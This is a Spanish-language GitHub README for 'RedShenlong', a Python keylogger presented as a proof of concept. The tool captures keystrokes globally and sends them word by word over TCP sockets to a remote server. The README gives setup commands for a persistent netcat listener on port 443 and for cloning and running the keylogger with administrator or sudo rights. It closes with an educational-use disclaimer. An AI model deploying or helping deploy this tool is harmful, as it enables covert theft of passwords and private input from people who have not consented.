


# RedShenlong: Remote Keylogger PoC


Técnica desarrollada en Python para el estudio de la interceptación de eventos de entrada y la exfiltración de datos mediante protocolos de red. Este proyecto demuestra cómo un proceso en segundo plano puede capturar pulsaciones de teclado, procesarlas en buffers de memoria y transmitirlas a un servidor remoto mediante sockets TCP.

## 📸 Demostración de Funcionamiento
El sistema valida la conectividad antes de iniciar y envía los datos palabra por palabra para optimizar el tráfico de red.

| 💻 Cliente (Windows / .py) | 🛡️ Receptor (Kali Linux / Netcat) |
| :---: | :---: |
|  |  |

---

## 🛠️ Características Principales
* **Validación Previa:** Bucle de configuración que verifica la validez del puerto (1-65535) y la conectividad real con la IP destino antes de activar el hook.
* **Captura de Bajo Nivel:** Uso de la librería `keyboard` para interceptar events del sistema de forma global.
* **Eficiencia de Red:** Implementación de un buffer que solo realiza el envío mediante sockets al detectar teclas de separación (`Espacio` o `Enter`).
* **Manejo de Errores:** Control de excepciones para evitar el cierre del script si el servidor receptor se desconecta temporalmente.

## 🚀 Guía de Uso

### 1. Configurar el Receptor (Servidor)
En la máquina de control (ej. Kali Linux), inicia un listener persistente que no se cierre tras recibir cada paquete:

```bash
 while true; do sudo nc -nlvp 443 2>/dev/null; done
```
### 2. Ejecutar el Cliente 
🪟 Si usas Windows (Administrador)
```bash
git clone https://github.com/RedShenlong/Keylogger.git 
cd Keylogger 
pip install keyboard 
python keylogger.py

```
🐧 Si usas Linux o macOS
```bash
git clone https://github.com/RedShenlong/Keylogger.git &&
cd Keylogger &&
sudo pip install keyboard --break-system-packages &&
sudo python3 keylogger.py
```
## ⚠️ DESCARGO DE RESPONSABILIDAD (DISCLAIMER)
**IMPORTANTE**: Este proyecto tiene fines estrictamente educativos y de investigación. El uso de esta herramienta para monitorizar dispositivos sin el consentimiento explícito y por escrito del propietario es una actividad ilegal. El autor no se hace responsable del uso indebido que se le pueda dar a este código.
